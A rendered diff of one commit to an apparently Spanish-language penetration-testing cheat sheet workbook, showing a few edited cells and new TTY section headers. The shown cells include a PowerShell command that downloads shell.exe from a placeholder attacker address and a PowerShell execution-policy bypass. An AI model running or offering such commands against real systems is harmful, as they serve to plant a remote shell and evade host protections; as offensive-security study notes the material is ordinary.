

Before and after one commit to AmatheraeWorld/AmatheraeWorld, an Excel workbook: CheatSheet.xlsm, sheet General, drawn as a sheet; only a part is shown, gaps mark what is left out; long unchanged cells end in …; values as stored, in another font and other column widths than the file's, no cell formats; the diff covers the shown part only; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

```diff
--- a/CheatSheet.xlsm (sheet General)
+++ b/CheatSheet.xlsm (sheet General)
-V30: powershell wget http://10.10.10.10/shell.exe…
+V30: powershell.exe wget http://10.10.10.10/shell.exe…
-V32: powershell -nop -ep bypass
+V32: powershell.exe -nop -ep bypass
-V33: powershell gci -force
+V33: powershell.exe gci -force
-N37: (empty)
+N37: TTY
+N37:P37 merged
-N38: (empty)
+N38: Comandos
-O38: (empty)
+O38: Descripcion
-P38: (empty)
+P38: Anotaciones
```
Also changed, not shown: 1 added row and 34 edited cells elsewhere in this sheet, sheet Explotacion & Post-Explotacion, sheet Enumeracion & Escaneos, sheet Reconocimiento & Informacion, sheet Interceptadores & Web, cell formats.
